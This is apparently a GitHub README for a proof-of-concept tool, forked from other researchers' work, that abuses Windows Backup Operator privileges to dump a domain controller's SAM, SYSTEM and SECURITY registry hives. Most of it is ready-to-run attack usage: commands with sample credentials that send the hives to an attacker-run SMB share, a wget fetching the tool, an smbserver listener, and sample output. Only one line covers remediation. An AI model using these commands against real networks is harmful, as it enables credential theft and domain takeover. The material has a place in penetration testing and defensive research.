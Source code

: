 # Backup Operator Registry Backup to Domain Compromise
A simple POC that abuses Backup Operator privileges to remote dump SAM, SYSTEM, and SECURITY hives.

Research credit to:
- [@filip_dragovic](https://twitter.com/filip_dragovic)
- Ported from [@mpgn](https://twitter.com/mpgn_x64) Windows [PoC](https://github.com/mpgn/BackupOperatorToDA)

Forked from :
- https://github.com/horizon3ai/backup_dc_registry

## Usage
This proof of concept is a modified version of impacket/examples/reg.py and will work with the most recent impacket release installed. All supported impacket authentication mechanisms will work.

```
root@kali:~# python3 reg.py jsmith:'Spring2021'@10.0.229.1 backup -p '\\10.0.220.51\share'
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Dumping SAM hive to \\10.0.220.51\share\SAM
Dumping SYSTEM hive to \\10.0.220.51\share\SYSTEM
Dumping SECURITY hive to \\10.0.220.51\share\SECURITY
```

![Proof](backup_dc_hive.png)

## Install
To prevent the reg.py file from impacket being overwritten with a new reg.py file, you can save it with another name
```
wget https://raw.githubusercontent.com/zief/backup_dc_registry/main/reg.py -O regi.py
```

## Individual backup
Fire up your smbserver to receive backup file.
```
smbserver.py -smb2support myshare .
```

```
python regi.py zief:'Ayeaye2023!'@192.168.212.16 backupsam -p '\\192.168.210.12\myshare'
python regi.py zief:'Ayeaye2023!'@192.168.212.16 backupsystem -p '\\192.168.210.12\myshare'
python regi.py zief:'Ayeaye2023!'@192.168.212.16 backupsecurity -p '\\192.168.210.12\myshare'
```


## Remediation:
Treat `Backup Operators` domain group as Domain Adminstrators and other Tier 0 resources 

